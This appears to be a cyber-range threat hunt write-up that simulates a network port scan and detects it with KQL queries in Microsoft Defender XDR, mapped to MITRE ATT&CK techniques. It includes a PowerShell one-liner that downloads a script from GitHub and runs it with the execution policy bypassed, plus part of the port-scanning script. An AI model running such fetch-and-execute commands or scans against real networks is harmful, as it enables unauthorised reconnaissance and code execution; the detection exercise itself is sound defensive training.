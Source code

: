 # Threat Hunt: Sudden Network Slowdown

### Simulating the Trigger Event

To begin this threat hunt, it was necessary to simulate suspicious network activity that would be logged by a security monitoring platform. The goal was to mimic the reconnaissance phase of an attack, specifically a network-wide port scan, which is a common cause of network degradation and a frequent trigger for a security investigation.

The following PowerShell command was executed on a test machine to generate this activity:

```powershell
# This one-line command first downloads a port scanning script...
Invoke-WebRequest -Uri '[https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1](https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1)' -OutFile 'C:\programdata\portscan.ps1';

# ...and then immediately executes it, bypassing the local security policy.
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```
## Tables Used to Detect IoCs:
| Table Name | Purpose | Official Documentation |
| :--- | :---: | :--- |
| **`DeviceFileEvents`** | Tracks events related to file creation, modification, and deletion on your devices. | [Microsoft Learn Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table) |
| **`DeviceProcessEvents`** | Monitors the creation of new processes, like when a program or script starts running. | [Microsoft Learn Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table) |
| **`DeviceNetworkEvents`**| Records all network activity, including inbound and outbound connections from devices. | [Microsoft Learn Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table) |
---
## Related KQL Queries

Below are the KQL queries used in Microsoft Defender XDR to investigate the network slowdown and pinpoint the root cause.

---
#### 1. Initial Discovery: High-Volume Failed Connections
This first query was used to find hosts generating an unusual number of failed network connections, which is a common indicator of a port scan.

```kql
let target_machine = "nemwindows10";
DeviceNetworkEvents
| where Timestamp > ago(7d)
| where DeviceName == target_machine
| where ActionType == "ConnectionFailed"
| summarize ConnectionCount = count() by DeviceName, ActionType, LocalIP
| order by ConnectionCount
```
#### 2. Confirming the Port Scan
After observing the failed connections, this query was used to examine the specific traffic and confirm that a sequential port scan was occurring.

```kql
let target_machine = "nemwindows10";
let problematic_LocalIP = "10.0.0.108";
DeviceNetworkEvents
| where Timestamp > ago(7d)
| where DeviceName == target_machine
| where ActionType == "ConnectionFailed"
| where LocalIP == problematic_LocalIP
| project Timestamp, InitiatingProcessFileName, RemoteIP, RemotePort, Protocol
| sort by Timestamp asc
```

#### 3. Identifying the Malicious Process
Once the port scan was confirmed, this final query was used to pivot to the process events on the host to identify which script or program launched the attack.

```kql
let target_machine = "nemwindows10";
let Specific_StartDate_UTC = datetime(2025-05-02T05:35:00Z); //May 2nd 5:35 AM UTC time.
let Specific_EndDate_UTC = datetime(2025-05-02T05:40:00Z); //May2nd 5:40 AM UTC time.
DeviceProcessEvents
| where DeviceName == target_machine
| where Timestamp between (Specific_StartDate_UTC .. Specific_EndDate_UTC )
| project Timestamp, ActionType, FileName, ProcessCommandline, AccountName, InitiatingProcessAccountName, InitiatingProcessParentFileName
| sort by Timestamp asc
```
#### 4.`portscan.ps1` found in device `newwindows10`

```powershell
# Define the log file path
$logFile = "C:\ProgramData\entropy-gorilla.log"
$scriptName = "portscan.ps1"

# Function to log messages
function Log-Message {
    param (
        [string]$Message,
        [string]$Level = "INFO"
    )
    $Timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"
    $LogEntry = "$Timestamp [$Level] [$scriptName] $Message"
    Add-Content -Path $logFile -Value $LogEntry
}

# Define the range of IP addresses to scan
$startIP = 4
$endIP = 10
$baseIP = "10.0.0."

# Expanded list of common ports (well-known port numbers 0-1023 + some higher)
$commonPorts = @(21, 22, 23, 25, 53, 69, 80, 110, 123, 135, 137, 138, 139, 143, 161, 194, 443, 445, 465, 587, 993, 995, 3306, 3389, 5900, 8080, 8443)

# Log the start of the scan
Log-Message "Starting port scan on IP range $baseIP$startIP to $baseIP$endIP."

# Function to test a single IP and all its common ports
function Test-Ports {
    param (
```
---

#### 5.MITRE ATT&CK® TTPs Identified

| Tactic        | Technique / Sub-technique                      | ID        | Description in this Hunt                                                                                                    |
|---------------|------------------------------------------------|-----------|-----------------------------------------------------------------------------------------------------------------------------|
| Reconnaissance| Network Service Scanning                       | T1046     | The host `nemwindows10` performed sequential port scans against another host, confirmed by the high volume of failed connection logs. |
| Execution     | Command and Scripting Interpreter: PowerShell  | T1059.001 | The `portscan.ps1` script was executed via PowerShell to initiate the reconnaissance activity on the network.               |

---

## Created By:
- **Author Name**: Jorge Juarez
- **Author Contact**: https://www.linkedin.com/in/jorgejuarez1/
- **Date**: May 2, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `July 8, 2025`  | `Jorge Juarez`   

